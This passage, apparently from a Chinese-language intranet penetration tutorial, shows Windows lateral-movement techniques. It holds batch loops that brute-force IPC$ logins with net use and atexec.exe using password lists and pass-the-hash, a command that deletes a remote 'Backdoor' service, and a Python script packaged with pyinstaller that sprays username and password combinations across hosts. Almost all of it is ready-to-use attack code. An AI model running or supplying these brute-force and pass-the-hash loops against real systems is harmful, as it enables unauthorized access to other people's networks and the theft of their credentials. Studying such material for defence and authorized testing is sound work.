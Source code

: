 ```plain
sc \\192.168.1.131 delete Backdoor
```

### [批量利用脚本、工具进行爆破连接](#toc__2)

```plain
#批量检测 IP 对应明文连接
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator

#批量检测 IP 对应明文 回显版
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami

#批量检测明文对应 IP 回显版
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.1.131 whoami

# 批量检测 HASH 对应 IP 回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.1.131 whoami
```

前期除了收集明文密码 HASH 等，还收集了用户名，用户名配合密码字典，用 python 打包成.exe 可执行文件

```plain
pip install pyinstaller
pyinstaller -F fuck_neiwang_001.py
import os,time
ips = {

}
# net user /domain
users = {
    'Administrator',
    '7BOB',
    'uf9n1x'
    'webserver-2008'

}
passs = {

}

for ip in ips:
    for user in users:
        for mima in passs:
            exec = "net use \\" + ip + '\ipc$' + mima + ' /user:god\\' + user
            print('--->' + exec + '<---')
            os.system(exec)
            time.sleep(1)
```

[![img](assets/1702372821-dadca864fa7cff3e3395a48789d7ace7.png)](https://storage.tttang.com/media/attachment/2023/05/09/653b3593-d5d7-42e1-aed6-f30a98025ef0.png)